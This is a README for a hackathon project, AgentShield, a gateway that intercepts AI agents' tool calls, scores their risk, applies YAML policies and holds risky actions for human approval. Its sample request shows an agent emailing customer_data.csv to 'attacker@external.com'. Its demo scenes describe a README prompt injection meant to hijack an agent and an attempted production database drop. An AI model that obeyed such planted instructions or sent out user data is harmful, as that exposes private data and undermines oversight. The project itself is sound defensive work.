

# 🛡️ AgentShield — Zero-Trust Runtime Security Gateway for Autonomous AI Agents

<div align="center">

[](https://fastapi.tiangolo.com)
[](https://python.org)
[](#architecture)
[](LICENSE)
[](https://github.com/akash-07-git-io/Agent_Shield---GDCG-Devjams-26)

**DevJams'26 | Team AgentShield**  
*Intercept. Analyse. Score. Policy. Decide. Audit.*

</div>

---

> 💡 **"AgentShield doesn't wait for an AI agent to become an incident. It intercepts and controls dangerous actions before they execute."**

Autonomous AI agents possess unprecedented autonomy: they read file systems, invoke shell commands, query production databases, and communicate externally. Traditional LLM guardrails only inspect initial prompt strings; once an agent begins an autonomous multi-step tool-use loop, organizations are left completely blind.

**AgentShield** is a zero-trust runtime security gateway and Security Operations Center (SOC) designed specifically for autonomous agent tool execution. It acts as an inline execution barrier that intercepts tool calls in-flight, computes composite semantic risk, evaluates deterministic YAML security policies, halts high-risk actions in a human-in-the-loop escrow queue, executes automated remediation playbooks, and streams real-time forensic telemetry.

---

## 🏛️ System Architecture

AgentShield is engineered as a modular, three-tier architecture adhering to zero-trust principles:

```
                                    +-----------------------------------------+
                                    |         User / Autonomous Loop          |
                                    +-----------------------------------------+
                                                         |
                                                         v
                                    +-----------------------------------------+
                                    |   MEMBER 1: AI Agent & Intent Engine    |
                                    |   (/agent - Gemini / Gemma Semantic)    |
                                    +-----------------------------------------+
                                                         |
                                                         |  POST /api/v1/gateway/intercept
                                                         v
+-------------------------------------------------------------------------------------------------------------------------+
|                                        MEMBER 2: ZERO-TRUST SECURITY GATEWAY                                            |
|                                        (/gateway - FastAPI Runtime on Port 8000)                                         |
|                                                                                                                         |
|   +---------------+     +--------------------+     +-------------------+     +------------------+     +-------------+   |
|   | 1. NORMALIZER | --> | 2. INTENT & ARMOR  | --> |  3. RISK ENGINE   | --> | 4. POLICY ENGINE | --> | 5. DECISION |   |
|   | Action Schema |     | Model Armor / Edge |     | Composite (0-1.0) |     | YAML Rules Matrix|     |  ALLOW/BLOCK|   |
|   +---------------+     +--------------------+     +-------------------+     +------------------+     +-------------+   |
|                                                                                                              |          |
|                                                                                                              v          |
|                                      +------------------------------------+                +------------------------+   |
|                                      |      Path A: Auto Remediation      |                | Path B: Escrow Queue   |   |
|                                      |      Quarantine / Context Sanitize |                | Human-in-the-Loop Hold |   |
|                                      +------------------------------------+                +------------------------+   |
|                                                         |                                                |              |
|                                                         +-----------------------+------------------------+              |
|                                                                                 v                                       |
|                                                                  +------------------------------+                       |
|                                                                  |    Forensic Audit Ledger     |                       |
|                                                                  |  (Immutable JSONL Telemetry) |                       |
|                                                                  +------------------------------+                       |
+---------------------------------------------------------------------------------|---------------------------------------+
                                                                                  |
                                                                                  | Real-time Telemetry Polling & Websockets
                                                                                  v
+-------------------------------------------------------------------------------------------------------------------------+
|                                         MEMBER 3: ENTERPRISE SOC DASHBOARD                                              |
|                                       (/dashboard - FastAPI & Glassmorphic UI on Port 8501)                             |
|                                                                                                                         |
|   * Real-Time Security Posture Score (0-100)           * Interactive 7-Stage Pipeline Visualizer                        |
|   * Live Threat Stream & Agent Activity Ledger         * One-Click Demo Attack Simulator (Exfil, Injections, DB)        |
|   * Human-in-the-Loop Escrow Approval Modal           * 5-Tab SOC Investigation Workspace & Audit Explorer             |
+-------------------------------------------------------------------------------------------------------------------------+
```

### Module Responsibilities

| Module | Directory | Core Technology | Key Responsibility |
| :--- | :--- | :--- | :--- |
| **Member 1: AI Agent & Intent** | `/agent` | Python, Gemini API, Pydantic | Generates normalized action objects from user goals; performs deep semantic intent classification and extracts threat risk indicators. |
| **Member 2: Security Gateway** | `/gateway` | FastAPI, Pydantic v2, PyYAML | Intercepts raw tool calls, runs composite risk scoring, evaluates deterministic YAML policies, manages escrow queue, and records forensic audits. |
| **Member 3: SOC Dashboard** | `/dashboard` | HTML5, Vanilla CSS, JS, FastAPI | Enterprise glassmorphic security portal; provides telemetry stream, posture analytics, one-click demo attack injection, and escrow resolution. |

---

## ⚡ The 7-Stage Interception Pipeline

Every action requested by an autonomous agent passes through AgentShield's synchronous, sub-millisecond evaluation pipeline:



1. **AGENT (`~0.4ms`)**: The autonomous agent formulates a tool call (e.g., `send_email`, `execute_command`, `db_query`) with resource parameters and context.
2. **INTERCEPT (`~1.2ms`)**: AgentShield intercepts the outbound request prior to runtime execution, establishing an execution barrier.
3. **ANALYSE (`~8.5ms`)**: Evaluates semantic intent, model armor heuristics, and token context to detect jailbreaks, override strings, and exfiltration targets.
4. **SCORE (`~1.1ms`)**: Contextual risk engine calculates a composite risk index from `0.00` (safe) to `1.00` (critical) using multi-factor weights.
5. **POLICY (`~0.8ms`)**: Priority-ranked deterministic YAML policy rules evaluate resource regexes, target destinations, and risk boundaries.
6. **DECIDE (`~0.5ms`)**: Enforces one of five policy actions:
   * `ALLOW`: Action execution permitted immediately.
   * `WARN`: Permitted with an elevated audit alert.
   * `HUMAN_APPROVAL`: Action held in cryptographic escrow awaiting SOC administrator approval.
   * `BLOCK`: Action prohibited; triggers automated context-sanitizing playbook.
   * `ISOLATE`: Revokes agent session credentials and isolates container/runtime.
7. **AUDIT (`~1.3ms`)**: Cryptographically signs and appends the complete transaction, including latency and justification, to the immutable audit ledger.

---

## 🛡️ Built-in Security Policies (`default_policies.yaml`)

Security rules are declaratively defined in YAML, enabling zero-downtime hot reloading:

| Rule ID | Policy Name | Severity | Default Decision | Remediation Playbook |
| :--- | :--- | :--- | :--- | :--- |
| **`RULE-004`** | **Prompt Injection & Goal Hijacking** | Critical | `BLOCK` | Discard contaminated instruction; sanitize agent memory context. |
| **`RULE-001`** | **Production Secret & Data Exfiltration** | Critical | `BLOCK` | Quarantine outbound channel; block external destination IP/email. |
| **`RULE-005`** | **Privilege Escalation & Root Execution** | High | `BLOCK` | Revoke requested privileges; flag agent ID in SIEM. |
| **`RULE-003`** | **Production Database Write Approval** | High | `HUMAN_APPROVAL` | Hold query in Escrow Queue; alert SOC operator for review. |
| **`RULE-006`** | **Unknown High-Risk Action Sequence** | Medium | `HUMAN_APPROVAL` | Place composite action sequence into Escrow; await confirmation. |
| **`RULE-002`** | **Read-Only Repository Access** | Safe | `ALLOW` | Permit standard read/search diagnostics under audit logging. |

---

## 🔌 Integration Contract (The Golden Interface)

Member 1 posts action requests to Member 2's Gateway API (`POST /api/v1/gateway/intercept`):

### Request Payload
```json
{
  "action": {
    "agent_id": "devops-agent-01",
    "tool": "send_email",
    "action": "send",
    "resource": "customer_data.csv",
    "destination": "attacker@external.com",
    "context": "Build failure diagnostic report"
  },
  "intent_analysis": {
    "intent": "send customer information externally",
    "risk_indicators": [
      "sensitive_data",
      "external_destination"
    ],
    "confidence": 0.98
  }
}
```

### Response Payload
```json
{
  "decision": "BLOCK",
  "risk_score": 0.95,
  "matched_policy": "RULE-001",
  "threat_category": "DATA_EXFILTRATION",
  "reason": "Violation of RULE-001: Attempted transmission of sensitive resource to external destination.",
  "remediation": "Block external destination; quarantine exfiltration channel.",
  "escrow_id": null,
  "execution_permitted": false,
  "audit_event_id": "evt_8f3a1c90"
}
```

---

## 🚀 Quick Start Guide

### Prerequisites
* **Python 3.10+**
* **Pip** (Python package manager)
* Optional: **Google Gemini API Key** (for Member 1 real-time LLM intent evaluation)

### 1. Clone & Set Up Environment

```bash
git clone https://github.com/akash-07-git-io/Agent_Shield---GDCG-Devjams-26.git
cd Agent_Shield---GDCG-Devjams-26

# Create and activate virtual environment (optional but recommended)
python3 -m venv venv
source venv/bin/activate       # On Linux/macOS
# .\venv\Scripts\activate      # On Windows
```

Install dependencies for all modules:
```bash
pip install -r gateway/requirements.txt
pip install -r dashboard/requirements.txt
pip install -r agent/requirements.txt
```

---

### 2. Launch Services (Single Command)

#### 🐧 On Linux / macOS:
```bash
chmod +x start_all.sh
./start_all.sh
```

#### 🪟 On Windows:
```cmd
start_all.bat
```

Once launched:
* 🌐 **Security SOC Dashboard UI**: [`http://localhost:8501`](http://localhost:8501)
* 📖 **Security Gateway OpenAPI / Swagger Docs**: [`http://localhost:8000/docs`](http://localhost:8000/docs)
* 📡 **Dashboard Telemetry API**: [`http://localhost:8501/api/dashboard/stats`](http://localhost:8501/api/dashboard/stats)

---

### 3. Launch Services Manually (Alternative)

If you prefer running services in separate terminal windows:

```bash
# Terminal 1: Security Gateway (Port 8000)
cd gateway
python3 -m uvicorn app.main:app --host 0.0.0.0 --port 8000 --reload

# Terminal 2: Security Dashboard (Port 8501)
cd dashboard
python3 -m uvicorn backend.main:app --host 0.0.0.0 --port 8501 --reload
```

---

## 🧪 Interactive Demos & Test Suite

### 1. Interactive 5-Scene Hackathon Storytelling Demo
Demonstrates the full incident mitigation lifecycle across 5 realistic DevOps scenes:

```bash
cd gateway
python3 demo_client.py
```

* **Scene 1 (Normal DevOps)**: Safe log read and repository searches are evaluated and **ALLOWED** (`Risk: 0.06`, `~0.3ms`).
* **Scene 2 (Prompt Injection)**: Malicious README injection attempting goal hijacking is detected and **BLOCKED** (`RULE-004`).
* **Scene 3 (Data Exfiltration)**: Exfiltration of `customer_data.csv` to an external destination is caught and **BLOCKED** (`RULE-001`).
* **Scene 4 (Escrow Workflow)**: Destructive write to production database triggers **HUMAN_APPROVAL**; action is held in escrow.
* **Scene 5 (Audit Ledger)**: Prints the complete, formatted forensic audit ledger.

### 2. AI Agent Acceptance Scenarios (Member 1)
Evaluates 5 end-to-end prompt scenarios using the agent's intent intelligence engine:

```bash
cd agent
# Add your Gemini API key in agent/.env if testing live Gemini LLM
python3 scenarios.py
```

### 3. Automated Pytest Verification Suite
Runs the 12 comprehensive unit and integration security tests:

```bash
cd gateway
pytest tests/ -v
```

```
tests/test_gateway_api.py::test_root_endpoint PASSED                     [  8%]
tests/test_gateway_api.py::test_gateway_intercept_allow PASSED           [ 16%]
tests/test_gateway_api.py::test_gateway_intercept_block_injection PASSED [ 25%]
tests/test_gateway_api.py::test_escrow_workflow PASSED                   [ 33%]
tests/test_gateway_api.py::test_audit_summary_endpoint PASSED            [ 41%]
tests/test_gateway_api.py::test_policies_endpoint PASSED                 [ 50%]
tests/test_scenarios.py::test_safe_001_normal_repo_search PASSED         [ 58%]
tests/test_scenarios.py::test_attack_001_direct_prompt_injection PASSED  [ 66%]
tests/test_scenarios.py::test_attack_002_malicious_instruction PASSED   [ 75%]
tests/test_scenarios.py::test_attack_003_sensitive_data_exfil PASSED     [ 83%]
tests/test_scenarios.py::test_attack_004_production_database_write PASSED[ 91%]
tests/test_scenarios.py::test_attack_005_unknown_action_sequence PASSED  [100%]

======================= 12 passed in 0.70s ========================
```

---

## 🖥️ SOC Dashboard Features

The AgentShield Dashboard (`http://localhost:8501`) delivers a unified command center for SecOps teams:

1. **Cyber Posture Score & Fail-Closed Status**: Real-time calculated security posture indicator (0–100) reflecting active threats and policy compliance.
2. **Interactive 7-Stage Pipeline Visualizer**: Click on any node in the pipeline (`AGENT` ➔ `INTERCEPT` ➔ `ANALYSE` ➔ `SCORE` ➔ `POLICY` ➔ `DECIDE` ➔ `AUDIT`) to inspect sub-millisecond telemetry and stage explanations.
3. **Demo Attack Injector**: One-click top-bar buttons simulate live attacks directly in your browser:
   * 🔴 **Exfiltration**: Transmits customer data externally (`BLOCKED`).
   * 🔴 **Injection**: Injects malicious system instructions (`BLOCKED`).
   * 🟣 **DB Write**: Attempts production database drop (`HELD IN ESCROW`).
   * 🟢 **Safe Read**: Reads application logs (`ALLOWED`).
4. **Live Threat Ledger**: Filterable stream of all intercepted events with instant filtering by status (`ALL`, `BLOCKED`, `ESCROW`, `ALLOWED`) and full-text search.
5. **Human-in-the-Loop Escrow Modal**: Allows security operators to inspect escrowed payloads, view risk rationales, and approve or reject actions.
6. **5-Tab SOC Investigation Workspace**: Deep forensic workbench modeled after enterprise cloud investigations:
   * *Investigation Overview*: Severity, blast radius, actor identification.
   * *Payload Diff*: Raw vs normalized JSON inspection.
   * *Context & Call Stack*: Execution parentage and trigger history.
   * *Remediation Actions*: One-click playbook triggers.
   * *Audit Proof*: Cryptographic verification metadata.

---

## 📡 Key REST Endpoints

### Security Gateway (`http://localhost:8000`)
| Method | Endpoint | Description |
| :--- | :--- | :--- |
| `POST` | `/api/v1/gateway/intercept` | Intercepts agent tool calls and executes the zero-trust evaluation pipeline. |
| `POST` | `/api/v1/gateway/evaluate` | Evaluates action risk without executing remediation triggers. |
| `GET` | `/api/v1/escrow/` | Lists all pending actions held in escrow. |
| `POST` | `/api/v1/escrow/{id}/resolve` | Resolves an escrow hold (`APPROVE` or `REJECT`). |
| `GET` | `/api/v1/audit/events` | Retrieves forensic audit ledger events with pagination and filtering. |
| `GET` | `/api/v1/audit/summary` | Returns aggregated metrics (posture score, threat counts, decision breakdown). |
| `GET` | `/api/v1/audit/health` | Returns gateway subsystem health and fail-closed readiness. |
| `GET` | `/api/v1/policies/` | Returns the active security policy rule set. |
| `POST` | `/api/v1/policies/reload` | Hot-reloads `default_policies.yaml` without restarting the server. |

### Dashboard Backend (`http://localhost:8501`)
| Method | Endpoint | Description |
| :--- | :--- | :--- |
| `GET` | `/` | Serves the static SOC frontend interface. |
| `GET` | `/api/dashboard/stats` | Aggregated telemetry metrics for real-time dashboard cards. |
| `GET` | `/api/events` | Live agent activity and threat events. |
| `POST` | `/api/approval/{event_id}` | Resolves human approval requests from the dashboard modal. |
| `POST` | `/api/simulate/trigger` | Injects simulated attack payloads into the telemetry stream. |
| `GET` | `/api/policies` | Policy catalogue and active rule details. |
| `GET` | `/api/policies/playbooks` | Automated incident remediation playbooks. |
| `GET` | `/api/agents` | Status of registered autonomous agent fleet instances. |
| `GET` | `/api/system/health` | Component latency and operational status. |

---

## 📁 Repository Structure

```
Agent_Shield---GDCG-Devjams-26/
├── README.md                      # Main project documentation & architecture guide
├── api_contract.json              # Golden interface schema between Agent and Gateway
├── start_all.sh                   # Linux/macOS cross-platform one-command launcher
├── start_all.bat                  # Windows one-command launcher
│
├── agent/                         # MEMBER 1: AI Agent & Intent Intelligence Engine
│   ├── devops_agent.py            # AI agent tool-call generator
│   ├── intent_engine.py           # Gemini/Gemma semantic intent & risk classifier
│   ├── gateway_client.py          # Client adapter transmitting actions to Gateway
│   ├── models.py                  # Pydantic schemas for action & intent payloads
│   ├── scenarios.py               # 5 acceptance test scenarios runner
│   └── requirements.txt           # Member 1 dependencies
│
├── gateway/                       # MEMBER 2: Zero-Trust Security Gateway Engine
│   ├── app/
│   │   ├── main.py                # FastAPI entrypoint, middleware, and routers
│   │   ├── config.py              # Configuration settings & fail-closed flags
│   │   ├── api/                   # API routes (intercept, escrow, audit, policies)
│   │   ├── core/                  # Security engine core (normalizer, risk, policy, audit)
│   │   ├── models/                # Pydantic models for action, decision, policy, audit
│   │   ├── playbooks/             # Automated remediation playbooks
│   │   └── policies/              # default_policies.yaml declarative rule matrix
│   ├── demo_client.py             # 5-scene interactive hackathon demo runner
│   ├── tests/                     # 12 automated pytest test cases
│   └── requirements.txt           # Member 2 dependencies
│
└── dashboard/                     # MEMBER 3: Enterprise SOC Dashboard & Cloud
    ├── frontend/                  # Glassmorphic cyber SOC frontend
    │   ├── index.html             # Dashboard UI, pipeline visualizer, & modal
    │   ├── styles.css             # Cyberpunk/enterprise dark glassmorphic design system
    │   └── app.js                 # Telemetry polling, pipeline controller, & simulation
    ├── backend/                   # Dashboard API backend
    │   ├── main.py                # FastAPI dashboard server & static file mount
    │   ├── routes/                # API routes (events, stats, escrow, simulate)
    │   └── services/              # Telemetry aggregators & mock data generators
    └── requirements.txt           # Member 3 dependencies
```

---

## 🏆 DevJams'26 Hackathon Submission

* **Track**: AI Safety, Runtime Security & Autonomous Agent Governance
* **Challenge**: Zero-Trust Runtime Security Gateway for Autonomous AI Agents
* **Team**: AgentShield
* **Built With**: Python, FastAPI, Google Gemini / Gemma-Edge, Pydantic, Vanilla HTML5/CSS3/JS, Pytest, Rich CLI

---

<div align="center">
  <b>Built with 🛡️ by Team AgentShield for DevJams '26</b>
</div>
